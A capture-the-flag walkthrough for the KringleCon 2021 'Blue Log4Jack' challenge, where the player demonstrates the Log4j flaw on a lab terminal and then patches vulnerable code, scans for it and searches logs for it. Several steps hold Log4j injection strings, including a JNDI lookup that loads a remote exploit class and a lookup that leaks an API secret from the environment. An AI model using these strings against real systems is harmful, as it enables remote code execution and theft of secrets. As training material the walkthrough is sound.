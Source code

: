 # Bonus) Blue Log4Jack

 KringleCon 2021 released 2 bonus objectives in view of the Log4j RCE vulnerability that was discovered early Dec 2021:  
1. Red Log4Jack
2. Blue Log4Jack
This README is a walkthough to solving the **Blue Log4Jack** bonus objective

Hints provided by Bow Ninecandle:
- Software by the [Apache Foundation](https://logging.apache.org/log4j/2.x/manual/lookups.html) runs on devices all over the internet
- Josh Wright's [simple checker script](https://gist.github.com/joswr1ght/a6badf9b0b148efadfccbf967fcc2b41) uses the power of regex to find vulnerable Log4j libraries!
- Prof. Qwerty Petabyte is giving [a lesson](https://youtu.be/OuYMPU3-0p4) about Apache Log4j.

**No Answer Needed**

---
## Walkthrough

You can find the the Bonus stage for Blue Log4Jack at _The North Pole_.

To get to The Bonus stage of Blue Log4Jack, just head to _The North Pole_. Right between the Santa's Castle and Frost Tower is the Bonus! Blue Log4Jack terminal with Bow Ninecandle beside.  
First reach out to Bow Ninecandle to understand the situation.

![](./res/blue_log4jack_bow_ninecandle.png)

---
## Solution

Bow Ninecandle asked us take a look at the `Bonus! Blue Log4Jack` terminal to defend North Pole systems from the Yule **Log4J**ack vulnerablility.

Access the terminal:  
![](./res/sol_pic1.png)

Run `Y` to continue:  
![](./res/sol_pic2.png)

Run the following to continue:  
`next`  
`ls` 
`cd vulnerable`  
`ls`
`cat DisplayFilev1.java`  
![](./res/sol_pic3.png)

Run the following to continue:  
`javac DisplayFilev1.java`  
`java DisplayFilev1 testfile.txt`
`java DisplayFilev1 testfile2.txt`
![](./res/sol_pic4.png)

Run the following to continue: 
`next`  
`cat DisplayFilev2.java`  
![](./res/sol_pic5.png)  

Run the following to continue:  
`next`  
`javac DisplayFilev2.java`  
`java DisplayFilev2 testfile2.txt`  
![](./res/sol_pic6.png)  

Run the following to continue:  
`next`  
`java DisplayFilev2 '${java:version}'`  
`java DisplayFilev2 '${env:APISECRET}'`  
![](./res/sol_pic7.png)  

Run the following to continue:  
`next`  
`/Startserver.sh`  
![](./res/sol_pic8.png)  

Run the following to continue:  
`java DisplayFilev2 '${jndi:ldap://127.0.0.1:1389/Exploit}'`  
![](./res/sol_pic9.png)  

Press `CTRL+C` to continue.  
![](./res/sol_pic10.png) 

Run the following to continue:  
`cd ~/patched`  
`ls`  
`source classpath.sh`  
`javac DisplayFilev2.java`  
`java DisplayFilev2 '${java:version}'`  
![](./res/sol_pic11.png)  

Run the following to continue:  
`cd`  
`./log4j2-scan vulnerable`  
`./log4j2-scan patched`  
`./log4j2-scan /var/www/solr`  
![](./res/sol_pic12.png)  

Run the following to continue:  
`next`  
`ls /var/log/www`  
`cat logshell-search.sg`  
![](./res/sol_pic13.png) 

Run the following to continue:  
`./logshell-search.sh /var/log/www`  
`./logshell-search.sh /var/log/www | sed '1!d'`  
`./logshell-search.sh /var/log/www | sed '2!d'`  
`./logshell-search.sh /var/log/www | sed '3!d'`  
![](./res/sol_pic14.png) 

Run the following to continue and end the walkthrough to get the achievement:  
`next`  
![](./res/sol_answer.png)  